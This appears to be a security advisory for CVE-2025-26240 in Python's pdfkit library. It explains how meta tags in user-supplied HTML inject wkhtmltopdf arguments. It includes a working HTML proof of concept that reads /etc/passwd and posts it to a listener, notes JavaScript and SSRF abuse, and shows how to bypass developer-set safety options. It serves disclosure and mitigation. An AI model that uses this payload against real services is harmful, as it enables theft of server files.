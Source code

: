 ﻿# **The *pdfkit* vulnerability (CVE-2025-26240)**
## **Summary**
The vulnerability in the pdfkit library is caused by parsing user-provided HTML in the `from_string` method, with no available options to mitigate the risk. The `from_string` method uses meta tags whose names start with “pdfkit-” and treats their values as command-line parameters for the `wkhtmltopdf` tool. This parsing is performed in the `_find_options_in_meta` method, located in the `pdfkit/pdfkit.py` file. While this functionality may be useful for certain use cases (such as setting the paper size), some `wkhtmltopdf` arguments pose security risks. 
## **Simple POC**
If we pass following html data into the `from_string` method we will be able to read the contents of the **/etc/passwd** file.

```html
<meta name='pdfkit---quiet' content=''>
<meta name='pdfkit---enable-local-file-access' content=''>
<meta name='pdfkit---post-file' content=''>
<meta name='pdfkit-file--a' content='/etc/passwd'>
<meta name='pdfkit-http://127.0.0.1:8080/?LFI-TEST=--' content='--cache-dir'>
<h1>LFI POC</h1>
```

There are a few constraints on the arguments that will be sent to wkhtmltopdf. The first is that the key must contain two dashes, which is why the last meta tag includes `--` in its name. The implementation of this check can be found in the `_normalize_options` method located in the `pdfkit/pdfkit.py` file.

```python
for key, value in list(options.items()):
    if '--' not in key:
        normalized_key = '--%s' % self._normalize_arg(key)
    else:
        normalized_key = self._normalize_arg(key) 
```

Due to insufficient validation, we are able to pass arguments that accept multiple values, not just key-value pairs. 

When we pass the example HTML file to the `from_string` method, we can see that the command generated and executed with the subprocess.Popen method is as follows:

`['/usr/local/bin/wkhtmltopdf', '--quiet', '--enable-local-file-access', '--post-file', 'file--a', '/etc/passwd', 'http://127.0.0.1:8080/?lfi-test=--', '--cache-dir', '-', '-']`

Resulting in following command:

`/usr/local/bin/wkhtmltopdf –quiet --enable-local-file-access --post-file file--a /etc/passwd http://127.0.0.1:8888/?lfi-test=-- --cache-dir - -`

This command sends the contents of the `/etc/passwd` file as an attachment in a POST request to `http://127.0.0.1:8888/?lfi-test=--` with the parameter `file--a`. The `--cache-dir` parameter is included solely to remove the extra dash added by the pdfkit library, ensuring that the wkhtmltopdf tool executes successfully.

When exploiting this vulnerability, we can observe that the contents of the `/etc/passwd` file are received on our Python listener.

![](/docs/assets/CVE-2025-26240-image-1.png)

In the same way, we can execute any JavaScript scripts by utilizing the `--script` command-line parameter, which runs the specified JavaScript code after generating the PDF, leading to SSRF and other potential vulnerabilities.
## **Bypass of pdfkit security measures**
The pdfkit library allows developers to provide an options dictionary for direct options that will be passed to `wkhtmltopdf`. The main issue is that these options can be easily bypassed due to Python’s way of handling dictionaries.

The options initialization is defined in `pdfkit/pdfkit.py` as follows:

```python
self.options = OrderedDict()
if self.source.isString():
    self.options.update(self._find_options_in_meta(url_or_file))
    self.environ = self.configuration.environ
    if options is not None:
        self.options.**update**(options)
```

The main issue is that Python preserves the order of keys when using the update method. For example, if we have the dictionary `{"a": 10, "b": 20}` and call update on it with `{"a": 15}`, the resulting dictionary will be `{"a": 15, "b": 20}`.

An attacker can always manipulate the order of command-line arguments sent to wkhtmltopdf. If a developer attempts to enforce security options such as `{"disable-javascript": "", "disable-local-file-access": ""}`, the attacker can set these options first and then override them by adding their counterparts, such as `enable-javascript` or `enable-local-file-access`. 
## **Easiest solution for developers**
The easiest solution to this vulnerability is probably to use other methods then `from_string`. For example developer can save the provided HTML to temporary file and then use `from_file` method, which doesn’t parse the meta tags. 


